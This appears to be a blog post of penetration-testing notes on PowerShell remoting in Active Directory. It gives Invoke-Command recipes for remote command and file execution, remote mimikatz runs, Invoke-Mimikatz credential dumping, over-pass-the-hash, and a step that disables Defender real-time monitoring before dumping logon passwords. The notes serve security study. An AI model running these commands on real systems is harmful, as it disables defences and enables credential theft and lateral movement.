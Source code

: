 ```yaml
---
title : "PSSession"
author: Bhaskar Pal
date: 2022-04-08 08:05:00 +0010
categories: [Blue-Teaming]
tags: [active-directory,remoting]
---
```


# <span style="color:lightblue">PowerShell Remoting</span>

* Think of it as psexec on steroids.
* You will found this increasingly used in enterprises. Enabled by default on Server 2012 onwards.
* You may need to enable remoting (**Enable-PSRemoting**) on a Desktop Windows machine, Admin privs are required to do that.
* You get elevated shell on remote system if admin creds are used to authenticate (which is the default setting).

> By default, enabling PowerShell remoting enables both an http and an https listener. The listeners run on default ports **5985 for http and 5986 for https**.
{: .prompt-info }

## <span style="color:lightgreen">Powershell Sessions</span>

In the table below, you can get a brief understanding of the working and usage of the cmdlets we will be using to perform attacks.

| Session Type | Cmdlets | Benifits |
| :--          | :--     | :--      |
| **One-to-One**   | 1. `New-PSSession`<br> 2. `Enter-PSSession` | 1. Interactive <br> 2. Runs in a new process (wsmprovhost) <br> 3. Is Stateful |
| **One-to-Many** | 1. `Invoke-Command` | 1. Non-interactive <br> 2. Executes commands parallely <br> 3. Execution is in disconnected sessions (v3) |

+ Use `-Credential` parameter to pass username/password

```powershell
$pass = ConvertTo-SecureString "Password123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("<computer-name>", $pass)
```

# <span style="color:lightblue">Enter/New-PSSession Remoting</span>


### <span style="color:#F1C232">1. Connect to a PS-Session of a remote user</span>
```powershell
Enter-PSSession -Computername <computer-name> 
```
### <span style="color:#F1C232">2. Execute Stateful commands using Enter-PSSession ( persistence )</span>
```powershell
$sess = New-PSSession -Computername <computer-name>
Enter-PSSession -Session $sess

[scorp.star.light.local]:PS> $proc = Get-Process
[scorp.star.light.local]:PS> exit

Enter-PSSession -Session $sess

[scorp.star.light.local]:PS> proc
Will list current process
```

# <span style="color:lightblue">Invoke-Command</span>

### <span style="color:#F1C232">1. Execute Stateful commands using Invoke-Command ( persistence )</span>

```powershell
$sess = New-PSSession -Computername <computer-name>
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

### <span style="color:#F1C232">2. Display allowed commands we can execute on remote machine</span>

```powershell
# copy the command snippet with the parameters which are required
Invoke-Command -computername <computer-name> -ConfigurationName <fill-if-required> -credential $cred -command {get-command}
Invoke-Command -computername <computer-name> -credential $cred -command {get-command}
Invoke-Command -computername <computer-name> -command {get-command}
```

### <span style="color:#F1C232">3. Write File using ScriptBlock</span>

```powershell
# copy the command snippet with the parameters which are required
Invoke-Command -ComputerName <computer-name> -ConfigurationName <fill-if-required> -Credential $cred -ScriptBlock {Set-Content -Path 'c:\temp.bat' -Value 'whoami'}
Invoke-Command -ComputerName <computer-name> -Credential $cred -ScriptBlock {Set-Content -Path 'c:\temp.bat' -Value 'whoami'}
Invoke-Command -ComputerName <computer-name> -ScriptBlock {Set-Content -Path 'c:\temp.bat' -Value 'whoami'}
```

### <span style="color:#F1C232">4. Edit file using ScriptBlock</span>

```powershell
# copy the command snippet with the parameters which are required
Invoke-Command -computername <computer-name> -ConfigurationName <fill-if-required> -ScriptBlock {((cat "c:\mention\path\here" -Raw) -replace 'replacing-object','replaced-with-content') | set-content -path c:\mention\same\path\here} -credential $cred
Invoke-Command -computername <computer-name> -ScriptBlock {((cat "c:\mention\path\here" -Raw) -replace 'replacing-object','replaced-with-content') | set-content -path c:\mention\same\path\here} -credential $cred
Invoke-Command -computername <computer-name> -ScriptBlock {((cat "c:\mention\path\here" -Raw) -replace 'replacing-object','replaced-with-content') | set-content -path c:\mention\same\path\here}
```

### <span style="color:#F1C232">5. Command execution using command and ScriptBlock</span>

```powershell
# copy the command snippet with the parameters which are required
Invoke-Command -computername <computer-name> -ConfigurationName <fill-if-required> -credential $cred -command {whoami}
Invoke-Command -computername <computer-name> -ConfigurationName <fill-if-required> -credential $cred -ScriptBlock {whoami}
Invoke-Command -computername <computer-name> -command {whoami}
Invoke-Command -computername <computer-name> -ScriptBlock {whoami}
```

### <span style="color:#F1C232">6. File execution using ScriptBlock</span>

```powershell
# copy the command snippet with the parameters which are required
Invoke-Command -ComputerName <computer-name> -ConfigurationName <fill-if-required> -Credential $cred -ScriptBlock{"C:\temp\mimikatz.exe"}
Invoke-Command -ComputerName <computer-name> -Credential $cred -ScriptBlock{"C:\temp\mimikatz.exe"}
Invoke-Command -ComputerName <computer-name> -ScriptBlock{"C:\temp\mimikatz.exe"}
```

### <span style="color:#F1C232">7. File execution using FilePath</span>

```powershell
Invoke-Command -computername <computer-name> -FilePath "C:\temp\mimikatz.exe"
```

### <span style="color:#F1C232">8. Language Mode</span>

```powershell
Invoke-Command -computername <computer-name> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}
```

> If the value of the LanguageMode is **Constrained**, then it will only allow built-in cmdlets execution
{: .prompt-tip }

## <span style="color:lightgreen">Execute locally loaded function on the remote machines</span>

Example : **Hello.ps1**

```powershell
function hello
{
Write-Output "Hello from the function"
}
```

### <span style="color:#F1C232">1. Now we can load the function on our machine</span>

```powershell
. .\Hello.ps1
```

### <span style="color:#F1C232">2. Now we can execute the locally loaded functions </span>

```powershell
Invoke-Command -ScriptBlock ${function:hello} -ComputerName <computer-name>
```

### <span style="color:#F1C232">3. In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way</span>

```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list of servers>) -
ArgumentList
```

### <span style="color:#F1C232">4. Directly load function on the remote machines using FilePath</span>

```powershell
$sess = New-PSSession -Computername <computer-name>
Invoke-Command -FilePath "C:\temp\hello.ps1" -Session $sess
Enter-PSSession -Session $sess

[scorp.star.light.local]:PS> hello
Hello from the function
```

# <span style="color:lightblue">Invoke-Mimikatz</span>

* The script could be used to dump credentials, tickets and more using mimikatz with PowerShell without dropping the mimikatz exe to disk.
* It is very useful for passing and replaying hashes, tickets and for many exciting Active Directory attacks.
* Using the code from ReflectivePEInjection, mimikatz is loaded reflectively into the memory. All the functions of mimikatz could be used from this script.
* The script needs administrative privileges for dumping credentials from local machine. Many attacks need specific privileges which are covered while discussing that attack. 

### <span style="color:#F1C232">1. Dump credentials on a local machine</span>

```powershell
Invoke-Mimikatz -DumpCreds
```

### <span style="color:#F1C232">2. Dump credentials on multiple remote machines</span>

```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```

> Invoke-Mimikatz uses PowerShell remoting cmdlet **Invoke-Command** to do above.
{: .prompt-info }

### <span style="color:#F1C232">3. "Over pass the hash" generate tokens from hashes</span>
 
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntImhash> /run:powershell.exe"'
```

### <span style="color:#F1C232">4. Create new session and dump hashes</span>

```powershell
#Create a session for remoting system
$sess = New-PSSession -ComputerName <computer-name>

#Bypass AMSI
Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true; whoami} -Session $sess

#Locally load mimikatz on your own system
Import-Module .\Invoke-Mimikatz.ps1

#Execute locally loaded functions remoting system
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz -command '"sekurlsa::logonpasswords"'} -Session $sess
```


If you find my notes interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/jessefmoore"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=jessefmoore&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
